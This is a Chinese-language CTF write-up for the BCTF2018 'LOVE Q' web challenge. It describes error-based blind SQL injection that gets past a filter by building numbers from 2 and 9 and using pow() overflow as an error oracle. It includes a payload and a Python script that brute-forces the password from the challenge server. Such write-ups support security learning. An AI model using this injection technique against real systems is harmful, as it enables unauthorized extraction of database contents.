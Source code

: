 ```yaml
---
title: BCTF2018 LOVE Q
url: 317.html
id: 317
categories:
  - CTF
date: 2018-04-21 18:19:34
tags:
---
```


### 前言

为数不多做出来的“高分题”（刚做出来的时候算高分，后来就掉下去了），记录一下  

### 正文

进入首页 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/bdf58748103944e1ee81757ddb270e9f.png) 
和之前的N1CTF的web 7777类似，算是一个升级版 
最恶心的部分是waf，过滤了很多 数字部分能用的只有 2 和 9 比较符号除了 >  其余等号和小于号都过滤了 
还有一个问题，没有回显,ha?这回的points设置之后无法判断回显 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/e85735afb4fd71611b99a3ad3205db6c.png) 
时间盲注的函数sleep、benchmark之类的函数都被禁用了 
没有回显怎么盲注呢，然后就将关注点转义到了为数不多的输出上   “sorry” 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/91b0928964b7a9dae41abbeee9b1ca9c.png) 
当语句执行出错时，会输出sorry，想到找到一个语法正确，但是无法执行的语句

mysql> select pow(2,22222222222);
ERROR 1690 (22003): DOUBLE value is out of range in 'pow(2,22222222222)'

利用次方运算导致数据超出double长度时，就会报错，但是不执行该语句时语法上是没问题的 这里短路运算符用不了，但是留了一个if
```sql
mysql> **select if(1,1,pow(2,22222222222));     //条件为真时，返回1**
+----------------------------+
| if(1,1,pow(2,22222222222)) |
+----------------------------+
|                          1 |
+----------------------------+
1 row in set (0.00 sec)

mysql> **select if(0,1,pow(2,22222222222));    //条件为假时，报错**
ERROR 1690 (22003): DOUBLE value is out of range in 'pow(2,22222222222)'
```
然后就是构造payload,
```
    flag=2
    hi=>>if((substr(pw,(9-2-2-2-2),(9-2-2-2-2))>'a'),2,pow(22,222222222222)
```
构造方面有两个麻烦的地方 1、只能用>进行比较运算, 于是前面的连接符就用>>位运算来做，后面判断勉强用 > 也能找到对应字符 2、数字只有2和9，运算符只有 * 和  - ，于是用（9-2-2-2-2）可以构造1，有了1和2，其他的数字应该也可以自行构造了 语句为真时无回显，语句为false时，输出sorry，就可以用来当作盲注的判断点 附上爆破脚本
```python
    #encoding=utf8
    import requests, string
    str_range = string.ascii_letters
    url = "http://3a7b823fc7994d62a92c3589fd05273b1254bc38b97743f2.game.ichunqiu.com"
    
    for i in str_range:
    	data = dict(flag=2,hi=">>if((substr(pw,2*2*2*2*2-9-2,(9-2-2-2-2))>'{}'),2,pow(22,222222222222))".format(i))
    	r = requests.post(url, data=data)
    	if 'sorry' in r.text:
    		print('sorry',i)
    	elif 'hacker' in r.text:
    		print("hacker")
    	else:
    		print("yes",i)
```
由于构造数字实在不好自动化，所以一位一位的半手工半自动化爆破吧。。 
还有一个问题，第14位的时候时a,大于比较时无法判断，可以改成用char来判断 要一直爆到20位，然后套上flag{}就是了  

### 总结

吐槽一下： 中间由于一些原因，去鉴定了下到底字符是大写还是小写(大于符号比较时，无法判断大小写) 
利用char去判断时，flag时大写的，然后各种不对，最后无意间改成小写，就通过了。。。